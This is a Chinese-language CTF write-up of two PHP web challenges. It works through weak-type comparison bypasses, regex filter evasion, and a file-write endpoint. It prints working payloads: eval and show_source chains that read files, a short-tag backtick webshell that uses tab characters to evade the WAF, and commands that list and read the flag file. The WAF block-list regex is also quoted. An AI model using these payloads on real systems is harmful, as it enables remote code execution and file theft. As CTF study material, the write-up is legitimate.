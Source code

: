 ```yaml
---
title: 第三次nep笔记
---
```


## 总结比赛的两道web题

## web1

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/10.png)

首先要使$login=true，想到的是md5弱类型比较，查看str_shuffle函数的用法，是随机地打乱字符串中的所有字符。如果是md5加密绕过的话，想到的是0e开头绕过和传入数组绕过。但是str_shuffle打乱之后这两种思路都行不通。试图查看str_shuffle函数有没有漏洞，没有找到。

接下来继续观察， $unserialize_str这个函数是可控的，它与$username弱类型比较的值要为真，而$username是不可控的，查看弱类型比较还有什么可以利用的地方，发现可以利用0与字符串弱类型比较的结果也为0（这里要注意的是，第一个字符不能为数字），到这里就清楚了，md5在这里就是混淆视线的，我们可以把$username，$password视为随机值。

那么接下来要思考的是，怎样让$unserialize_str['username']和$unserialize_str['password']的值为0

注意到 unserialize函数，想到反序列化漏洞，但是在反序列化漏洞中没有找到可以利用的地方。

还是继续从弱类型比较入手，PHP弱类型 - 简书  https://www.jianshu.com/p/90d235d4f745

在这篇文章中找到

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/13.png)

这里的json_decode函数让我联想到了unserialize函数，都是可以触发反序列化漏洞的函数。

这里的payload为 item={"key":0}，尝试构造这到题的payload，没有成功。

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/14.png)

继续找弱类型，发现这篇文章，ctf常见php弱类型分析_词语大杂烩-CSDN博客_ctf弱类型  https://blog.csdn.net/qq3401247010/article/details/77867399

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/15.png)

发现这道题的payload用的是数组的方法，unserialize函数在数组中不会报错。

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/16.png)

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/11.png)

接着绕过正则，https://blog.csdn.net/silence1_/article/details/102835743参考了这篇文章，构造payload

```
?str=a:2:{s:8:%22username%22;i:0;s:8:%22password%22;i:0;}&code=eval(end(current(get_defined_vars())));&b=var_dump(highlight_file(end(scandir(pos(localeconv())))));
```

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/12.png)

看了wp发现，这道题还有更好的解法，由于php是弱类型语⾔，所以bool值为true的变量和任何变量⽐较都相等，除了0和false

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/24.png)

这样，我们构造的payload就不会跟第一个种解法一样具有不确定性

wp还给出了利用三角函数构造点

查看php版本

```php
?str=a:2:{s:8:"username";b:1;s:8:"password";b:1;}&code=phpinfo();
```

版本号为： 7.2.24

phpversion() 返回 7.2.24-0ubuntu0.18.04.7

```php
floor(phpversion()) 返回 7

sin(floor(phpversion())) 返回 0.65698659871879sin(sin(floor(phpversion()))) 返回 0.61073350824527

cos(sin(sin(floor(phpversion())))) 返回 0.81922759437835

rad2deg(cos(sin(sin(floor(phpversion()))))) 返回 46.938283618535

floor(rad2deg(cos(sin(sin(floor(phpversion())))))) 返回 46
```

这样便构造出 46 了

返回

flag在 this_is_flag.php 中，刚好在最后⼀个⽂件，通过 end() 读取最后⼀个⽂件，再通过

show_source() 打印，这样就得到最终的payload：

```php
?str=a:2:
{s:8:"username";b:1;s:8:"password";b:1;}&code=show_source(end(scandir(chr(floor
(rad2deg(cos(sin(sin(floor(phpversion()))))))))));
```

```php
php 5.x
?
code=var_dump(scandir(chr(floor(rad2deg(sin(cos(cos(floor(phpversion())))))))))
;?
code=show_source(end(scandir(chr(floor(rad2deg(sin(cos(cos(floor(phpversion()))
))))))))
```

## web2

```php
<?
$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

$_SERVER["REMOTE_ADDR"] 为获取'获取IP

$a ?? 0 等同于 isset($a) ? $a : 0

$a ?: 0 等同于 $a ? $a : 0

可得$_GET["action"] ?? "" 等同于isset($attion) ? $attion : ""

我们的目的就是要让$action='upload',执行file_put_contents函数

$dir并不是我们能控制的，也就是file_put_contents函数打开的文件路径是固定的，这里我在本地测试的时候遇到一个问题，文件名中不能含有'/'

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/17.png)

既然名不能有'/',我一开始想到的是注释，但是行不通，然后是文件流，base64编码，但是由于$dir不是我们能控制的，所以都行不通。接着发现mkdir函数在创建文件目录或文件是也不能有'/'等特殊符号，如何存在'/'，'/'前面会被当成创建文件目录处理。而这道题中刚好有有mkdir函数`if(!file_exists($dir)){ mkdir($dir);}`

只要执行mkdir函数，file_put_contents函数打开的文件路径就不会报错了。

这道题还需要注意，在本地测试ip地址是127.0.0.1，而这道题不是，所以在本地和这道题产生的文件名是不一样的，这道题的文件名可以通过让$action=pwd,打印出$dir,也就是file_put_contents函数打开的文件路径。

接下来考虑的是$data变量，因为file_put_contents函数打开的文件后缀为php，也就是如果$data为输入php格式，可以执行php代码。

这里 waf($data)调用了两个函数

```php
 error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}
```

isArray() 方法用于判断一个对象是否为数组。如果对象是数组返回 true，否则返回 false。我们刚才分析$data的内容应该是php文件的格式，所以不会是一个数组。观察 check方法

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/19.png)

php被过滤，我们可以采用短标签的格式，`<?=  ?>`

到这里一开始的想法是构造一句话木马，但是这些符号被过滤了，构造失败

```
_  ^  ~  ;  { }
```

然后发现反引号没有被过滤，可以构造<?= %09`dir`?>

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/20.png)

这里空格被过滤，用%09代替。

这里当前目录只有index.php,一开始的想法是通过返回上级目录查看内容，也就是`cd%09..&&ls`,但发现没有执行成功，最后是通过返回根目录

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/21.png)

可以看出最后xxxaf14gss.php即为我们想找的文件，cat  /xxxaf14gss.php，php被过滤，用*绕过

![](https://zhuang-yongyi.gitee.io/yoyo/%E7%AC%AC%E4%B8%89%E5%B1%8A%E6%B5%B7%E5%95%B8%E6%9D%AF/22.png)

